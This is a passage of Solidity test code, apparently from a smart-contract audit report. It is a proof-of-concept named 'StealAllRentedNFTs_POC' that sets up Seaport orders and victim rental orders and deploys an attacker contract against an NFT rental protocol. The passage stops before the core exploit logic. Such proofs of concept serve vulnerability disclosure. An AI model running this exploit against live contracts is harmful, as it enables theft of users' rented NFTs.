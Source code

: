 ```solidity
        fulfillments[1] = fulfillmentERC20;

        seaport.matchAdvancedOrders(
            advancedOrders,
            new CriteriaResolver[](0),
            fulfillments,
            address(0)
        );
    }

    function _initializeNFT(ItemType itemType, address token, uint256 tokenId, uint256 amount) internal {
        payAdvancedOrder.parameters.offer[0].itemType = itemType;
        payAdvancedOrder.parameters.offer[0].token = token;
        payAdvancedOrder.parameters.offer[0].identifierOrCriteria = tokenId;
        payAdvancedOrder.parameters.offer[0].startAmount = amount;
        payAdvancedOrder.parameters.offer[0].endAmount = amount;

        payeeAdvancedOrder.parameters.consideration[0].itemType = itemType;
        payeeAdvancedOrder.parameters.consideration[0].token = token;
        payeeAdvancedOrder.parameters.consideration[0].identifierOrCriteria = tokenId;
        payeeAdvancedOrder.parameters.consideration[0].startAmount = amount;
        payeeAdvancedOrder.parameters.consideration[0].endAmount = amount;
        payeeAdvancedOrder.parameters.consideration[0].recipient = payable(safe);

        payOrder.parameters.offer[0].itemType = itemType;
        payOrder.parameters.offer[0].token = token;
        payOrder.parameters.offer[0].identifierOrCriteria = tokenId;
        payOrder.parameters.offer[0].startAmount = amount;
        payOrder.parameters.offer[0].endAmount = amount;

        payeeOrder.parameters.consideration[0].itemType = itemType;
        payeeOrder.parameters.consideration[0].token = token;
        payeeOrder.parameters.consideration[0].identifierOrCriteria = tokenId;
        payeeOrder.parameters.consideration[0].startAmount = amount;
        payeeOrder.parameters.consideration[0].endAmount = amount;
        payeeOrder.parameters.consideration[0].recipient = payable(safe);
    }
}

contract StealAllRentedNFTs_POC is BaseTest {

    function testStealAllRentedNFTs() public {
        // ------ Setting up previous state ------ //

        // create and fulfill orders that we will exploit
        (
            Order memory order, 
            OrderMetadata memory metadata, 
            RentalOrder[] memory victimRentalOrders
        ) = _createAndFulfillVictimOrders();

        // ------ Prerequisites ------ //

        // instantiate attackerContract
        AttackerContract attackerContract = new AttackerContract(
            address(conduit), // seaport conduit
            address(erc20s[0]), // token we will use for our rental orders
            seaport
        );

        // send arbitrary # of ERC20 tokens for rental payment to our attackerContract
```